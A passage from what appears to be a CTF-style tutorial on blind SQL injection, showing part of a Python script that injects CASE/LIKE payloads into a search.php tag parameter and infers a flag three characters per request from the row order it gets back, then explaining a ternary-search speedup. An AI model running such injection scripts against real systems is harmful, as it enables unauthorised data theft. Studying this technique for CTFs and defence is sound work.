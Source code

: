 ``` python
      when (content like "{result+chars[2]}%") then 5
      else 10
     end from flag)
    '''
    print("trying " + str(chars))
    response = requests.get(f'{host}/search.php?tag={encode(payload)}')
    if response.ok:
      data = json.loads(response.text)
      if len(data) == 2:
        result+=chars[0]
        found = True
      elif len(data) == 0:
        continue
      else:
        found = True
        if data[0]["name"] == "home1":
          result+=chars[1]
        else:
          result+=chars[2]

    else:
      print('error')
      print(response.text)
      break

    if found:
      print_success("found: " + result)
      break

  if not found:
    print("end")
    print(response.text)
    break

print(f"time: {time.time() - start}s")
```

The result of running it looks like this:

![](/img/sql-injection-in-action/p2.png)

It took about 90 seconds to get the answer, which is much faster than before.

Assuming n is the length of the string, and our character set has about 27 characters, in the worst case, we need 27n attempts to get the flag. With this method, we only need 27n/3 = 9n attempts.

However, this is still not fast enough. Since we already have three types of results, why not use them in a different way?

### Further acceleration: Ternary search

Instead of trying three at a time, we can try "three groups of three" by dividing the original character set into three equal parts, such as `}abcdefghijklmnopqrstuvwxyz_`, which can be divided into:
